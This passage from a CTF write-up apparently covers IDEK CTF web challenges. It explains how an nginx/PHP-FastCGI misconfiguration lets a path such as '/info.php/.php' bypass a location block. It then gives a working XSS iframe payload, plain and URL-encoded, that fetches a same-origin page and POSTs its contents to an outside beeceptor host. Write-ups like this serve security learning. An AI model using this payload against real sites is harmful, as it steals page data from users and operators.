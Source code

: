 This block matches any request for a PHP file (indicated by the regex `~ \.php`, where `~` is a case-sensitive regular expression). We also notice that it used `Fastcgi`.

After a while of researching, I encounted 2 sites that have alike this problem.
For more details:<br>
<a href="https://nealpoole.com/blog/2011/04/setting-up-php-fastcgi-and-nginx-dont-trust-the-tutorials-check-your-configuration/">Setting up PHP-FastCGI and nginx? Don’t trust the tutorials: check your configuration!</a><br>

<a href="https://www.linode.com/docs/guides/nginx-and-phpfastcgi-on-fedora-14/#configure-your-site">Configure FastCGI</a><br>

Basically, the `conf` file processes one block at a time. For instance, a request like `http://idek-hello.chal.idek.team:1337/info.php/.php` triggers the second block because it ends with `.php`, bypassing the first block. This results in the execution of the script inside the `/info.php`.

<img src="./assets/IDEK-CTF/phpinfo.png" alt="Ảnh 2" style="width:100%;">

### **EXPLOITATION**

With all the information that we gathered, let's craft the final payload.

```plaintext
<iframe src="javascript:fetch('/info.php/.php').then(r=>r.text()).then(x=>{fetch('http://tr0x69.free.beeceptor.com',{method:'POST',body:x})})">
```

Because it has the same origin, so we just need to fetch `/info.php/.php`

Encoded version

```plaintext
<iframe%0Csrc=%22javascript:fetch('%26%2347%3Binfo.php%26%2347%3B.php').then(r=>r.text()).then(x=>{fetch(%27https:%26%2347%3B%26%2347%3Btr0x69.free.beeceptor.com%27,{method:%27POST%27,body:x});})%22>
```

Inspect the body, and I have gotton the flag!!!!

<img src="./assets/IDEK-CTF/flag.png" alt="Ảnh 2" style="width:100%;">

## Web/Crator

### **DESCRIPTION**
